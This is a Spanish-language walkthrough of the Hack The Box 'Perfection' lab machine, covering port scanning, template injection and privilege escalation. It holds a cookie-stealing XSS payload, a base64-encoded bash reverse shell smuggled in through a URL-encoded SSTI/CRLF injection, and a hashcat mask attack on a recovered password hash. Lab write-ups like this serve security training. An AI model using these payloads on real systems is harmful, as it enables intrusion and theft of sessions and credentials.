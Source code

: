 https://app.hackthebox.com/machines/Perfection
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.11.253
```
![[Pasted image 20240510182805.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80 10.10.11.253
```
![[Pasted image 20240510182853.png]]
# Fase de ataque
## CRLF Inyection
Intentamos XSS inyection pero no deja porque lo detecta
```
# Cookie Hijacking
<script>document.location="http://<ip>?cookie="+document.cookie</script>
```
Encontramos una forma de inyectar comandos dentro de las categorias:
1. Convertimos a base64 el código que queremos ejecutar
```
echo "bash -i >& /dev/tcp/10.10.14.147/1111 0>&1" | base64
```
2. Insertamos el código junto al la inyeccion: 
```
<%=system("echo+<base64>| base64 -d | bash"); %>1
```
3. Urlencodeamos el código correspondiente
```
%0a<%25%3dsystem("echo+%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4e%44%63%76%4d%54%45%78%4d%53%41%77%50%69%59%78%43%67%3d%3d|+base64+-d+|+bash")%3b+%25>1
```
4. Nos ponemos en escucha
```
nc -nlvp 1111
```
![[Pasted image 20240510192851.png]]
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
# Privilege Escalation
Encontramos un hash en una base de datos:
```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```
No se puede crackear
Encontramos un correo para Susan de como es la contraseña
![[Pasted image 20240510194637.png]]
Podemos obsevar que el hash es el nombre_nombrealreves_numeroaletoriode1a1000000.
## Crackeamos
```
hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

Con la contraseña:
```
sudo -l
```
Vemos que tenemos acceso root
```
sudo su
```
![[Pasted image 20240510195643.png]]
[+] ==pwned!==
